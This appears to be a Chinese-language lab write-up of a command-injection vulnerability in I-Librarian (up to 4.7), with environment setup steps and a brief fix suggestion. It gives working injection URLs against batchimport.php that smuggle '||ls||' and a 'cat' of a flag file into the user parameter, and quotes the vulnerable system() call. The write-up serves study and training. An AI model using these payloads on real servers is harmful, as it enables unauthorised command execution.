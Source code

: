 # <center>I-Librarian-4.6-CI</center> #

<center>![librarian](pictures/librarian.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于I-Librarian在某处没有对参数过滤严格，导致命令执行漏洞。
* 影响版本： 小于等于4.7

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;I-Librarian是在线PDF文件管理和组织工具，可以让你的pdf文件集中管理。

&emsp;&emsp;该漏洞主要的产生原因是未做严格的过滤。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

<center>![librarian](pictures/1.png)</center>


&emsp;&emsp;这里注册一个用户`qqqqqqqq`密码`qqqqqqqq`，然后再登录该用户。  

<center>![librarian](pictures/2.png)</center>


访问`ip:port/batchimport.php?directory=.&commence=123&user="||ls||"`会发现执行了`ls`命令：

<center>![librarian](pictures/3.png)</center>


访问 `"http://ip:port/batchimport.php?directory=.&commence=123&user="||cat flag4tregyjo8ikuwefd6ythrbfqwd.php||"`再右键查看源代码得到flag值。

<center>![librarian](pictures/4.png)</center>

### 源码解析
定位到batchimport.php文件的system函数处:

```php

system(select_pdftotext() . ' -enc UTF-8 -f 1 -l 3 "' . $file . '" "' .
$temp_file . '"');

```

可以看见几个参数，我们打印system里面的所有参数，如下：

`"pdftotext" -enc UTF-8 -f 1 -l 3 "./test.pdf""/var/tmp/i-librarian/98fb
c74409ad6afc0d4920b3b0e75a53/"||ls||"_librarian_temp1.txt"`


同时可以看出所有变量各自的值，变量其实为了让逻辑能够到达system函数。将该参数拿到linux的terminal下面执行得到如下效果：

<center>![librarian](pictures/5.png)</center>  



## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5+php5-sqlite环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，访问首页即可。



### 4.3&emsp;漏洞复现（CI） ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;添加过滤函数  
